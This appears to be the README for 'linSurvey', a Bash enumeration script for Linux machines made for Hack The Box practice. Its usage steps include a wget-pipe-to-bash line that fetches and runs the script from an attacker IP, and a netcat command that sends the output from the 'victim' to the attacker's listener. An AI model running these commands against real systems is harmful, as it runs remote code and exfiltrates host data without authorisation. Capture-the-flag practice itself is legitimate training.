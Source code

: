 # linSurvey

GNU/Linux enumeration script written in BASH.<br>
Created to enumerate GNU/Linux machines on Hack The Box. Can possibly be used against UNIX machines.<br> 
Visuals taking from HIGH ON COFFEE'S enumeration script. 

HOW TO USE:
1. Upload script to victim:
   1. bash linSurvey.sh
   2. (as needed) bash linSurvey.sh | tee /tmp/linSurvey.txt
  
2. Use wget to piped to bash to run:
   1. wget YOUR_IP_ADDR/linSurvey.sh -O- | bash
   2. (as needed) wget YOUR_IP_ADDR/linSurvey.sh -O- | bash | nc -nvvq1 YOUR_IP_ADDR YOUR_PORT
      1. Have netcat on your attack machine listening for data: nc -nvvls YOUR_IP_ADDR -p YOUR_PORT > linSurvey.txt && cat linSurvey.txt
  
  Enjoy
